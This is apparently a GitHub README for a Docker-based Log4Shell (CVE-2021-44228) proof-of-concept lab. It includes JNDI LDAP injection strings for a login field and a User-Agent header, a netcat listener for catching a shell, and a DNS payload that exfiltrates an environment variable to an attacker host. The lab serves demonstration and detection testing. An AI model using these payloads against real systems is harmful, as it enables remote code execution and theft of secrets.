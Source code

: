 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell 

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at https://github.com/kozmer/log4j-shell-poc

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

A newer Bitnami server is now available on port 8888. It is also is configured for Log4J2 logging and is running Tomcat 9.0.55 and OpenJDK 11.0.13.

The detection script will check for user-agent vulnerablities and is from here: https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6
 

### Prerequisites

This code requires Docker and Docker Compose

### Installation

``` 
git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
# edit docker-compose.yml to addjust the environment variables as needed.
#   POC_ADDR is the address of the cve-poc container
#   LISTENER_ADDR is the address of the 'nc' listener e.g. the docker host
# The listener IP address is the address of the machine on which you will run the netcat 'nc' listener
# This can be the local IP of the docker hostmachine.
docker-compose build
```

### Run Web App Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. Navigate to the web app on port 8080
    1. Navigate to http://10.10.10.31:8080/log4shell
        1. Enter the username: `admin`
        1. Enter the password: `password`
        1. Select the "login" button
        1. See the welcome screen 
    1. Return to login at http://10.10.10.31:8080/log4shell
        1. Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
        1. Select the "login" button
        1. Check for connection on your `nc` listener

### Run a User Agent Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. In a third terminal, run the following. The second IP is the docker host
    1. `curl -A "\${jndi:ldap://172.16.238.11:1389/a}" http://10.10.10.31:8080/log4shell`

### Run a DNS Exfil Demo on Recent Java 11 version

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:dns://10.10.10.31/\${env:POC_PASSWORD}}" http://10.10.10.31:8888/log4shell/`
1. The vulnerable web server will attempt to do a TXT lookup at the given IP. See log4j-dns_exfil.pcap

### Detect UA Vulnerability
1. cd scripts
1. `python3 log4j_rce_check.py http://10.10.10.31:8080/log4shell --attacker-host 10.10.10.31:11389 --timeout=2`
1. you will have to kill the process, not sure yet why this hangs
